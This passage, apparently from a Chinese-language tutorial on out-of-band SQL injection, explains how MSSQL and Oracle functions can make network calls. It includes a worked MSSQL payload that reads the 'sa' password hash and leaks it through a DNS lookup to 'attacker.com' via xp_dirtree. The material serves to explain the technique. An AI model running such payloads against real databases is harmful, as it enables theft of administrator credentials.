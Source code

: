  4.1.3 master..xp_subdirs

扩展存储程序master..xp_subdirs（）用于得到给定的文件夹内的文件夹列表： 

```
master..xp_subdirs '<dirpath>'

```

例如，要获得C:\Windows中的所有次级文件夹: 

```
EXEC master..xp_subdirs 'C:\Windows';     

```

4.1.4例子

接下来的是的通过MsSQL的扩展存储程序master..xp_dirtree()将管理员（sa）的密码哈希通过DNS传输的例子。 

```
DECLARE @host varchar(1024);     

SELECT @host=(SELECT TOP 1 master.dbo.fn_varbintohexstr(password_hash) FROM sys.sql_logins WHERE name='sa')+'.attacker.com';
 EXEC('master..xp_dirtree "\\'+@host+'\foobar$"');

```

这种预先计算的形式被使用，因为扩展存储程序不接受带有参数的子查询。因而使用临时变量存储SQL查询的结果。

4.2 Oracle 
-----------

* * *

Oracle提供的PL/ SQL包被捆绑在它的Oracle数据库服务器来扩展数据库功能。为了实现本文的目的，其中几个用于网络接入的包让人特别感兴趣。

 4.2.1 UTL_INADDR.GET_HOST_ADDRESS

UTL_INADDR包用于互联网的寻址--诸如检索本地和远程主机的主机名和IP的地址。

它的成员函数GET_HOST_ADDRESS()用于检索特定主机的IP：

```
 UTL_INADDR.GET_HOST_ADDRESS('<host>')

```

例如，为了获得test.example.com的IP地址，运行： 

```
SELECT UTL_INADDR.GET_HOST_ADDRESS('test.example.com');     

```

4.2.2 UTL_HTTP.REQUEST

UTL_HTTP包用于从SQL和PL/SQL中标注出HTTP。 它的程序REQUEST()回从给定的地址检索到的第1-2000字节的数据： UTL_HTTP.REQUEST('')

例如，为了获得http://test.example.com/index.php页面的前两千字节的数据，运行：
